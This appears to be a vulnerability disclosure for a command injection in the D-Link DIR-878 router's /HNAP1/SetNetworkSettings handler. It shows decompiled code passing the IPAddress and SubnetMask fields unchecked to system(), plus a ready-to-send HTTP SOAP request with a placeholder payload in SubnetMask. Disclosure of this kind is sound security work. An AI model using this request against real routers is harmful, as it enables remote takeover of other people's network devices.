

## DIR-878 Command Injection

### Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ：https://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-878

### Affected version

D-Link DIR-878  FW1.20B05 and FW1.10B05 was found to contain a command injection in `/HNAP1/SetNetworkSettings` of the component Web Interface `prog.cgi`, which allows remote attackers to execute arbitrary commands via shell.



### Vulnerability details

Vulnerability occurs in `/HNAP1/SetNetworkSettings`. Attackers can control `VarString` by setting the `IPAddress` or control `v7` by setting the `SubnetMask` , then the program will pass them to get system call without any check.

```
  VarString = (const char *)webGetVarString(a1, "/SetNetworkSettings/IPAddress");
  if ( !VarString )
    return WebsSetResponseResult(a1, 12);
  v7 = (const char *)webGetVarString(a1, "/SetNetworkSettings/SubnetMask");
  if ( !v7 )
    return WebsSetResponseResult(a1, 12);
  v8 = webGetVarString(a1, "/SetNetworkSettings/DeviceName");
  ...
  nvram_safe_set("lan0_ipaddr", VarString);
  if ( (unsigned int)strlen(VarString) >= 7 )
  {
    sprintf(v39, "echo %s >/proc/ipinfo/ip_addr", VarString);
    system(v39);  //command injection
  }
  nvram_safe_set("lan0_netmask", v7);
  if ( (unsigned int)strlen(v7) >= 7 )
  {
    sprintf(v39, "echo %s >/proc/ipinfo/net_mask", v7);
    system(v39);   //command injection
  }
```

Based on the cause of the vulnerability, attackers can arbitrarily execute the command by setting the `SubnetMask` or `IPAddress`.

### EXP

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
Content-Length: 452
Accept: text/xml
HNAP_AUTH: 6EA57BC3825CEF9821DC8A2C46035271 1827139043216
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkSettings"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: text/xml
Origin: http://192.168.0.1
Referer: http://192.168.0.1/NetworkSettings.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=bgeGaHlw
Connection: close

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<SetNetworkSettings xmlns="http://purenetworks.com/HNAP1/">
	<IPAddress></IPAddress>
	<SubnetMask>payload</SubnetMask>
	<DeviceName></DeviceName>
	<LocalDomainName></LocalDomainName>
	<IPRangeStart></IPRangeStart>
	<IPRangeEnd></IPRangeEnd>
	<LeaseTime></LeaseTime>
	<Broadcast></Broadcast>
	<DNSRelay></DNSRelay>
</SetNetworkSettings>
</soap:Body>
</soap:Envelope>
```

